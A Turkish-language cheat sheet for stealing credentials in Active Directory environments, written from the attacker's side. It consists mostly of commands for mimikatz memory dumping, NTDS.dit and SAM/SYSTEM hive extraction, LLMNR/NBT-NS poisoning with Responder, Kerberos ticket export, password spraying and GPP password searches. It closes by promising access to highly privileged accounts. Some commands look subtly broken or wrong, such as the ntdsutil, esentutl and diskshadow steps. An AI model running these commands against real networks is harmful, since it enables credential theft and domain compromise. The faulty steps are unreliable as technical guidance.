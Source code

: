 # Active Directory Credential Gathering Rehberi

Bu rehberde, Active Directory (AD) ortamında credential toplama (kullanıcı adı ve şifre) yöntemleri detaylı bir şekilde açıklanmıştır. Her bir yöntem için kullanılan komutlar, araçlar ve bu komutların ne işe yaradıkları açıklanmıştır.

---

## 1. Giriş

Credential toplama, bir saldırganın Active Directory ortamında ilerlemesi için kritik bir adımdır. Bu süreçte, mevcut kullanıcı bilgilerinin yanı sıra yüksek ayrıcalıklı hesapların bilgileri de elde edilmeye çalışılır. Bu rehber, hem PowerShell hem de CMD tabanlı komutlar ve araçlar kullanılarak credential toplama yöntemlerini açıklamaktadır.

---

## 2. Metodoloji

### 2.1. Windows Credentials Dumping

#### `mimikatz`
**Amaç:** Bellekte saklanan kullanıcı adı ve şifre hashlerini toplar.

```cmd
privilege::debug
log
sekurlsa::logonpasswords
```

#### `rundll32 keymgr.dll,KRShowKeyMgr`
**Amaç:** Windows üzerinde saklanan şifreleri görüntüler.

```cmd
rundll32 keymgr.dll,KRShowKeyMgr
```

---

### 2.2. NTDS.dit Dumping

#### `ntdsutil`
**Amaç:** NTDS.dit dosyasını yedekleyerek tüm Active Directory veritabanını alır.

```cmd
ntdsutil
activate instance ntds
datafile cleanup
```

#### `esentutl`
**Amaç:** NTDS.dit dosyasını çıkarır ve analiz eder.

```cmd
esentutl /p <path_to_ntds.dit>
```

---

### 2.3. LLMNR ve NBT-NS Poisoning

#### `Responder`
**Amaç:** LLMNR ve NBT-NS protokollerini kullanarak kimlik bilgisi toplar.

```bash
responder -I <network_interface>
```

#### `Inveigh`
**Amaç:** PowerShell ile LLMNR ve NBT-NS zehirleme saldırıları yapar.

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh
```

---

### 2.4. Kerberos Ticket Extraction

#### `klist`
**Amaç:** Mevcut Kerberos ticket bilgilerini listeler.

```cmd
klist
```

#### `Invoke-Mimikatz`
**Amaç:** Kerberos bileşenlerini ve biletlerini (TGT, TGS) dump eder.

```powershell
Invoke-Mimikatz -Command "kerberos::list /export"
```

---

### 2.5. Password Spraying

#### `crackmapexec`
**Amaç:** Bir kullanıcı adı ve şifre listesi ile domain üzerinde şifre denemesi yapar.

```bash
crackmapexec smb <target_ip> -u users.txt -p passwords.txt
```

#### `kerbrute`
**Amaç:** Kerberos üzerinden brute force ve password spraying yapar.

```bash
./kerbrute userenum -d <domain> userlist.txt
```

---

### 2.6. SAM ve SYSTEM Hive Dumping

#### `reg save`
**Amaç:** SAM ve SYSTEM hive dosyalarını yedekler.

```cmd
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

#### `secretsdump.py`
**Amaç:** SAM ve SYSTEM dosyalarını analiz ederek hashleri çıkarır.

```bash
python secretsdump.py -sam sam.save -system system.save LOCAL
```

---

### 2.7. Group Policy Preferences (GPP) Şifrelerini Toplama

#### `Get-GPPPassword`
**Amaç:** GPP dosyalarında saklanan şifreleri bulur.

```powershell
Get-GPPPassword
```

#### `findstr`
**Amaç:** SYSVOL'deki XML dosyalarını tarayarak GPP şifrelerini bulur.

```cmd
findstr /S /I /C:"password" \\\<domain>\SYSVOL
```

---

### 2.8. Credential Harvester

#### `Invoke-CredentialHarvest`
**Amaç:** PowerShell kullanarak açık oturumlardan kimlik bilgisi toplar.

```powershell
Invoke-CredentialHarvest
```

#### `quser`
**Amaç:** Hangi kullanıcıların açık oturumda olduğunu listeler.

```cmd
quser
```

---

### 2.9. SMB Share Enumeration ve Credential Extraction

#### `smbclient`
**Amaç:** Paylaşımları listeler ve credential içeren dosyaları bulur.

```bash
smbclient -L \\<target_ip>
```

#### `PowerView`
**Amaç:** SMB paylaşımlarını tarar ve analiz eder.

```powershell
Invoke-ShareFinder
```

---

### 2.10. Shadow Copy Dumping

#### `vssadmin`
**Amaç:** Shadow Copy'leri listeler ve NTDS.dit dosyasını çıkarır.

```cmd
vssadmin list shadows
```

#### `diskshadow`
**Amaç:** Shadow Copy oluşturur ve NTDS.dit dosyasını alır.

```cmd
diskshadow
exec create
exec expose
```

---

## 3. Araçlar ve Teknikler

### BloodHound
**Amaç:** Active Directory ortamında kimlik bilgisi ilişkilendirmelerini analiz eder.

```cmd
SharpHound.exe -c All
```

### Mimikatz
**Amaç:** Bellekteki kimlik bilgilerini çıkarır.

```cmd
sekurlsa::logonpasswords
```

### CrackMapExec
**Amaç:** Active Directory ortamında şifre denemesi ve hash çıkarma.

```bash
crackmapexec smb <target_ip>
```

---

## 4. Sonuç

Bu rehber, Active Directory ortamında credential toplama süreçlerinde kullanılan yöntemleri detaylı bir şekilde açıklamaktadır. Rehberdeki komut ve araçlar doğru uygulandığında, yüksek ayrıcalıklı hesaplara erişim sağlamak için kritik veriler elde edilebilir.
